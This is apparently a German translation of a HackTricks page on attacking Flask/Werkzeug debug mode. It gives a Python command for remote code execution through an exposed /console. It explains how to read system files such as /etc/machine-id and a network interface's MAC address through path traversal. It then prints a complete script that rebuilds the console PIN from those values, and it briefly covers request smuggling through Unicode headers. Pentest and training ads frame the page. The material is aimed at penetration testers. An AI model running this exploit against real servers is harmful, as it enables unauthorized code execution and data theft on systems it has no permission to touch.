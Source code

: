 # Werkzeug / Flask Debug

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Sofort verfügbarer Setup für Schwachstellenbewertung & Penetrationstests**. Führen Sie einen vollständigen Pentest von überall mit über 20 Tools & Funktionen durch, die von Recon bis Reporting reichen. Wir ersetzen keine Pentester - wir entwickeln maßgeschneiderte Tools, Erkennungs- & Ausnutzungs-Module, um ihnen etwas Zeit zurückzugeben, um tiefer zu graben, Shells zu öffnen und Spaß zu haben.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

Wenn das Debugging aktiv ist, könnten Sie versuchen, auf `/console` zuzugreifen und RCE zu erlangen.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Es gibt auch mehrere Exploits im Internet wie [diesen ](https://github.com/its-arun/Werkzeug-Debug-RCE) oder einen in Metasploit.

## Pin Geschützt - Pfad Traversierung

In einigen Fällen wird der **`/console`** Endpunkt durch einen Pin geschützt. Wenn Sie eine **Dateitraversierungsanfälligkeit** haben, können Sie alle notwendigen Informationen leaken, um diesen Pin zu generieren.

### Werkzeug Konsole PIN Exploit

Erzwingen Sie eine Debug-Fehlerseite in der App, um dies zu sehen:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Eine Nachricht bezüglich des Szenarios "Konsole gesperrt" wird angezeigt, wenn versucht wird, auf die Debug-Schnittstelle von Werkzeug zuzugreifen, was auf die Notwendigkeit eines PINs hinweist, um die Konsole zu entsperren. Es wird vorgeschlagen, den Konsolen-PIN auszunutzen, indem der PIN-Generierungsalgorithmus in der Debug-Initialisierungsdatei von Werkzeug (`__init__.py`) analysiert wird. Der PIN-Generierungsmechanismus kann im [**Werkzeug-Quellcode-Repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) studiert werden, es wird jedoch geraten, den tatsächlichen Servercode über eine Dateitraversal-Sicherheitsanfälligkeit zu beschaffen, um mögliche Versionsunterschiede zu vermeiden.

Um den Konsolen-PIN auszunutzen, werden zwei Variablen-Sets benötigt: `probably_public_bits` und `private_bits`:

#### **`probably_public_bits`**

* **`username`**: Bezieht sich auf den Benutzer, der die Flask-Sitzung initiiert hat.
* **`modname`**: Typischerweise als `flask.app` bezeichnet.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Resolviert in der Regel zu **Flask**.
* **`getattr(mod, '__file__', None)`**: Stellt den vollständigen Pfad zu `app.py` im Flask-Verzeichnis dar (z. B. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Wenn `app.py` nicht zutrifft, **versuchen Sie `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Ruft die MAC-Adresse des aktuellen Geräts ab, wobei `str(uuid.getnode())` sie in ein dezimales Format übersetzt.
* Um **die MAC-Adresse des Servers zu bestimmen**, muss die aktive Netzwerkschnittstelle identifiziert werden, die von der App verwendet wird (z. B. `ens3`). Bei Unsicherheiten **leaken Sie `/proc/net/arp`**, um die Geräte-ID zu finden, und extrahieren Sie dann die MAC-Adresse aus **`/sys/class/net/<device id>/address`**.
*   Die Umwandlung einer hexadezimalen MAC-Adresse in dezimal kann wie folgt durchgeführt werden:

```python
# Beispiel MAC-Adresse: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Verknüpft Daten aus `/etc/machine-id` oder `/proc/sys/kernel/random/boot_id` mit der ersten Zeile von `/proc/self/cgroup` nach dem letzten Schrägstrich (`/`).

<details>

<summary>Code für `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Nach dem Zusammenstellen aller erforderlichen Daten kann das Exploit-Skript ausgeführt werden, um die Werkzeug-Konsole-PIN zu generieren:

Nach dem Zusammenstellen aller erforderlichen Daten kann das Exploit-Skript ausgeführt werden, um die Werkzeug-Konsole-PIN zu generieren. Das Skript verwendet die zusammengestellten `probably_public_bits` und `private_bits`, um einen Hash zu erstellen, der dann weiterverarbeitet wird, um die endgültige PIN zu erzeugen. Unten steht der Python-Code zur Ausführung dieses Prozesses:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Dieses Skript erzeugt die PIN, indem es die verketteten Bits hasht, spezifische Salze (`cookiesalt` und `pinsalt`) hinzufügt und die Ausgabe formatiert. Es ist wichtig zu beachten, dass die tatsächlichen Werte für `probably_public_bits` und `private_bits` genau vom Zielsystem abgerufen werden müssen, um sicherzustellen, dass die generierte PIN mit der von der Werkzeug-Konsole erwarteten übereinstimmt.

{% hint style="success" %}
Wenn Sie eine **alte Version** von Werkzeug verwenden, versuchen Sie, den **Hash-Algorithmus auf md5** anstelle von sha1 zu ändern.
{% endhint %}

## Werkzeug Unicode-Zeichen

Wie in [**diesem Problem**](https://github.com/pallets/werkzeug/issues/2833) beobachtet, schließt Werkzeug eine Anfrage mit Unicode-Zeichen in den Headern nicht. Und wie in [**diesem Bericht**](https://mizu.re/post/twisty-python) erklärt, kann dies eine CL.0 Request Smuggling-Schwachstelle verursachen.

Das liegt daran, dass es in Werkzeug möglich ist, einige **Unicode**-Zeichen zu senden, was den Server **zum Absturz** bringen kann. Wenn jedoch die HTTP-Verbindung mit dem Header **`Connection: keep-alive`** erstellt wurde, wird der Body der Anfrage nicht gelesen und die Verbindung bleibt offen, sodass der **Body** der Anfrage als **nächste HTTP-Anfrage** behandelt wird.

## Automatisierte Ausnutzung

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Referenzen

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Sofort verfügbarer Setup für Schwachstellenbewertung & Penetrationstests**. Führen Sie einen vollständigen Pentest von überall mit über 20 Tools und Funktionen durch, die von Recon bis Reporting reichen. Wir ersetzen keine Pentester - wir entwickeln maßgeschneiderte Tools, Erkennungs- und Ausnutzungs-Module, um ihnen etwas Zeit zurückzugeben, um tiefer zu graben, Shells zu öffnen und Spaß zu haben.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
